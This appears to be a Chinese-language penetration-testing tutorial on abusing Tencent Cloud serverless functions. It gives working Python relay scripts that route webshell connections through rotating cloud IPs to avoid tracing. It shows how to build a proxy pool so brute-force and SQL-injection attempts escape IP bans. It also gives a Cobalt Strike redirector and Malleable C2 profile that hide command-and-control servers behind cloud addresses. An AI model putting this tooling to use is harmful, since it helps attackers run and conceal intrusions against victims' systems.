云函数的特点
云函数 SCF
云函数（Serverless Cloud Function，SCF）是腾讯云为企业和开发者们提供的无服务器执行环境，能在无需购买和管理服务器的情况下运行代码。只需使用平台支持的语言编写核心代码并设置代码运行的条件，即可在腾讯云基础设施上弹性、安全地运行代码。SCF 是实时文件处理和数据处理等场景下理想的计算平台。
总结云函数的几个特性： 1. 多出口 2. 调用时创建执行 3. 无需服务器VPS承载
云函数的几种常见利用
防溯源连接Webshell
云函数使用的补上自己的ip，连接shell时调用云函数代理连接可以起到一定的防溯源效果。
云函数创建(以腾讯云为例)
基础配置
进入云函数创建页面：腾讯云函数创建
选择自定义创建->写个函数名

函数代码
代码脚本如下，将webshell地址作为参数传入云函数api中。云函数服务端脚本会重组webshell地址以及POST命令内容，并把重组后的请求内容转发给webshell。
#!/usr/bin/env
# -*- coding: UTF-8 -*-
import requests
import json from urllib.parse
import urlsplit
def geturl(urlstr):
jurlstr = json.dumps(urlstr)
dict_url = json.loads(jurlstr)
return dict_url['u']
def main_handler(event, context):
url = geturl(event['queryString'])
host = urlsplit(url).netloc
postdata = event['body']
headers=event['headers']
headers["HOST"] = host
resp=requests.post(url,data=postdata,headers=headers,verify=False)
response={"isBase64Encoded": False,"statusCode": 200,"headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},"body": resp.text}
return response
贴上代码即可

高级设置
这里遇到一个坑，默认执行时间是三秒，如果不修改，执行函数将会有报错。
解决方案如下：
修改一下执行超时时间为60，其他保持默认

触发器设置
保存后下滑点击触发器，设置触发方式为api网关触发(若报红，点击去授权服务，开启使用)
自定义创建->触发方式为API网关触发

完成即可。
使用方式
完成后自动跳转到页面，或者点击 函数服务->函数名->触发管理
下滑复制访问路径，就是我们的api路径了

搭建好后在蚁剑中直接使用
或者在浏览器中访问该连接也能测试
访问路径?u=目标shell文件路径
https://service-xxxxxxx.sh.apigw.tencentcs.com/release/shell-bypass?u=http://xxx.xxx.xxx.xxx:端口/upload/1.php
这是就是调用腾讯云的api访问了，查看ip会发现每次请求的IP都不同，并且都是来自选择地的腾讯云。（比如本次实验就是上海的IP）

放到微步可以查到它们都是干净的IP。
云函数实现代理池
云函数其实也可以作为一种变相的代理池供我们所用，利用云函数的多出口性来防止爆破或者SQL注入的时候被Ban掉ip。
云函数创建
在github上查找scf-proxy可以找到开源的项目。第一次看到Scf-Proxy的概念的应该是学蚁致用的作者。通过客户端监听获取请求并且组装API请求，服务端云函数解析且重组API请求。通过SCF-Proxy不光可以实现代理http请求，也可以代理https请求(类似Burp中间人监听的方式)。

编译文件
项目地址：https://github.com/Sakurasan/scf-proxy
下载文件放到linux中利用Golang编译客户端和服务端。
还是选择自定义创建，但是这里要选择Go，而不是默认的python，选择本地上传zip，将main.zip上传上去。
上传服务端
上传编译的文件

触发器设置
API网关触发

客户端利用
编译后的文件如下，修改配置文件指向云函数的url，端口默认为8888，与服务端的一致，不做修改。

在命令行运行windows的exe文件，开启代理

目标使用个人的vps开启一个目录以供记录访问ip
python3 -m http.server 10081
在浏览器代理了本机的8888端口后访问vps开放的端口，可以发现有代理池的效果了。

在平时渗透时就可以挂上这个代理防止自己的ip被ban掉。
CS的Malleable-C2-Profiles隐藏
由于Cs支持HTTP/HTTPS类型的Beacon，因此我们也可以通过云函数来转发HTTP/HTTPS请求。
云函数创建
基础配置
依旧选择自定义创建。腾讯云函数创建

函数代码
云函数服务端脚本如下
# -*- coding: utf8 -*-
import json,requests,base64
def main_handler(event, context):
C2='http://<C2服务器地址>' # 这里可以使用 HTTP、HTTPS~下角标~
path=event['path']
headers=event['headers']
print(event)
if event['httpMethod'] == 'GET' :
resp=requests.get(C2+path,headers=headers,verify=False)
else:
resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
print(resp.headers)
print(resp.content)
response={
"isBase64Encoded": True,
"statusCode": resp.status_code,
"headers": dict(resp.headers),
"body": str(base64.b64encode(resp.content))[2:-1]
}
return response
高级配置
执行时间需要改，不然测试还是会有问题
建议改60

触发器配置
选API网关触发方式，其他默认

配置网关api路径
这里有一个坑，很多文章没有提到要更改网关路径，会直接导致cs无法上线。
解决方法如下：函数服务 -> cs-bypass -> 触发管理 -> 点击API服务名
进入api服务，授权使用

进入编辑

路径改为 /

在下方点击立即完成->发布任务 即可
CS服务端配置
Cs可以定制Profile来更加隐匿流量 这里使用如下的Profile
set sample_name "kris_abao";
set sleeptime "3000";
set jitter "0";
set maxdns "255";
set useragent "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/5.0)";
http-get {
set uri "/api/getit";
client {
header "Accept" "*/*";
metadata {
base64;
prepend "SESSIONID=";
header "Cookie";
}
}
server {
header "Content-Type" "application/ocsp-response";
header "content-transfer-encoding" "binary";
header "Server" "Nodejs";
output {
base64;
print;
}
}
}
http-stager {
set uri_x86 "/vue.min.js";
set uri_x64 "/bootstrap-2.min.js";
}
http-post {
set uri "/api/postit";
client {
header "Accept" "*/*";
id {
base64;
prepend "JSESSION=";
header "Cookie";
}
output {
base64;
print;
}
}
server {
header "Content-Type" "application/ocsp-response";
header "content-transfer-encoding" "binary";
header "Connection" "keep-alive";
output {
base64;
print;
}
}
}创建完后放到将api.profile放到服务端Cs上 可以通过c2lint检查一下profile，可以看到正常的定义http类型Beacon的get和post请求时的样子。
可以使用c2lint检查一下 ./c2lint api.profile

实战时指定一个配置文件进行加载
./teamserver [external IP] [password] [/path/to/my.profile]-------------
./teamserver xxx.xxx.xxx.xxx 密码 api.profile
如果不在同一个目录下，就写绝对路径
验证成果
设定监听

使用该监听器生成木马->点击上线
使用wireshark验证ip，过滤一下请求uri：http.request.uri == “/api/getit”
uri通过查看服务端的api.profile配置文件得到。

可以发现公网地址是我们的云函数IP，达到隐藏C2目的。
